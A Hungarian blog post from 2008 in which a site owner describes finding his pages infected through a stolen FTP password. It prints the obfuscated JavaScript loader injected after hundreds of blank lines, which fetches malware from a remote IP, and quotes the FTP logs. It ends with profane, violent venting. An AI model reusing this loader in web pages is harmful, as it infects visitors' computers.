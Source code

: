 ```yaml
---
title: "shapgvba ejtf(c){..."
slug: 'shapgvba-ejtfc'
date: "2008-02-05"
tags: 
  - "geekség"
  - "gekko"
  - "hack"
  - "virus"
  - "zsonglőrködés"
---
```


Amikor a pokol elszabadul.

Rémálom baszki.

Gondos házigazda lévén, rendszeresen nézegetem az oldalaimat, hogy minden rendben van-e, nem kell-e valami hozzászólást kimoderálni stb. Vasárnap feltűnt valami kis apróság. A böngészőm a csokavar.hu főoldalán valami ismeretlen add-in-t akart futtatni. Márpedig én ilyet nem írtam sehova. Aztán nézem a forrást, és 500-600 üres sorral a fájl általam gondolt vége után találtam egy ilyet:

<script language=JavaScript>var sf=" shapgvba cwzgq(d){ine xp,yfl="r|b'RhkB\_98\[5)XsvAPClwHix.e,2o:$uyT^&Vqa36Nd=-Z\\"{\`z\]m@GS;UIc# 0}jWMt1pf7~(n4O\*+g!",xn="",c,wah,xs="",pr;sbe(xp=0;xp<d.yratgu;xp++){ c=d.puneNg(xp);wah=yfl.vaqrkBs(c);vs(wah>-1){ pr=((wah+1)%81-1);vs(pr<=0)pr+=81;xs+=yfl.puneNg(pr-1); } ryfr xs+=c;}xn+=xs;qbphzrag.jevgr(xn);}",aarf="";for(nyf=0;nyf<sf.length;nyf++){ cqd = sf.charCodeAt(nyf);if((cqd>64 && cqd<78)||(cqd>96 && cqd<110)) cqd=cqd+13;else if((cqd>77 && cqd<91)||(cqd>109 && cqd<123))cqd=cqd-13;aarf=aarf.concat(String.fromCharCode(cqd));} var hw,u; eval( aarf );hw="<7s,N#!0G431x41|-{U4k47s,N#!{>0n'sx\]|3!rJ,N!|a0{<SPRdyF0G431x41|-\\{Z4k4Ss,N#!\\{0SRP-\\{l!!#$//JJJr1''1G|M434Gj!Gs7rs'\]/99x!!rU7?{tn'sx\]|3!r,|i|,,|,t{\\{><\\/SPRdyF>{0KH0</7s,N#!>0"; pjmtd(hw);</script>

Szoktam ronda kódot írni, de azért ez... 

Kiderült, hogy fenti szutyok valami Hong Kongi gépről (58.65.238.60) próbál egy vírust letölteni a látogató gépére.

Aztán elkezdtem a logokat böngészni, míg az FTP logban a következőre nem bukkantam:

Fri Feb 1 23:58:06 2008 \[pid 7784\] \[encse\] OK LOGIN: Client "58.65.238.59"

Fri Feb 1 23:58:12 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/www/index.php", 3904 bytes, 16.06Kbyte/sec

Fri Feb 1 23:58:14 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/www/index.php", 5498 bytes, 11.47Kbyte/sec

Fri Feb 1 23:58:16 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/gekko/index.php", 92 bytes, 0.39Kbyte/sec

Fri Feb 1 23:58:18 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/gekko/index.php", 1686 bytes, 3.49Kbyte/sec

Fri Feb 1 23:58:21 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/blog/index.php", 54 bytes, 0.23Kbyte/sec

Fri Feb 1 23:58:23 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/blog/index.php", 1648 bytes, 3.43Kbyte/sec

Fri Feb 1 23:58:26 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/zsonglor/index.php", 5645 bytes, 24.04Kbyte/sec

Fri Feb 1 23:58:28 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/zsonglor/index.php", 7239 bytes, 10.81Kbyte/sec

Fri Feb 1 23:58:31 2008 \[pid 7787\] \[encse\] OK DOWNLOAD: Client "58.65.238.59", "/public\_html/zsonglor/siteswap/index.php", 7102 bytes, 16.60Kbyte/sec

Fri Feb 1 23:58:33 2008 \[pid 7787\] \[encse\] OK UPLOAD: Client "58.65.238.59", "/public\_html/zsonglor/siteswap/index.php", 8696 bytes, 12.99Kbyte/sec

Ugyanaz a Hong Kongi IP, közvetlen a másik mellett.

Szóval valaki lenyúlta az FTP jelszavamat, és ahogy sejtem, arra használta fel, hogy ugyanezt a jelszólopó trójait terjessze az oldalaimon.

A neten találtam egy fórumot, ahol egy hasonló támadást elemeznek ([http://pouet.net/topic.php?which=5006&page=1](http://pouet.net/topic.php?which=5006&page=1)). Itt az 'én' scriptem egy másik mutációját elemzik. Szerintük az egész mögött a [Russian Business Network](http://en.wikipedia.org/wiki/Russian_Business_Network) áll, ami a wikipedia leírása alapján nagyjából a maffia. hátaf�szom.

Tegnap jelszavakat váltogattam (bankos, céges, stb.  el lehet képzelni...) Ma meg egész nap a gépet pucolgattam, de ez tisztának tűnik. Azt gondolom, hogy az otthoni, régi gépemen lesz a trójai, de ez a hétvége előtt nem fog kiderülni.

És az egészben nem is az fáj, hogy engem meghackeltek, mert előfordul az ilyesmi. De a büdös kurva életbe már: a szájbavert zsonglőr oldalamra töltik fel az ótvar szutykukat, hogy az arra tévedő gyerekek gépére másszon fel az a szemét.

Én sose voltam a halálbüntetés ellen: le kéne géppuskázni az egész baszott bagást, úgy ahogy van, aztán nézegethetnek.
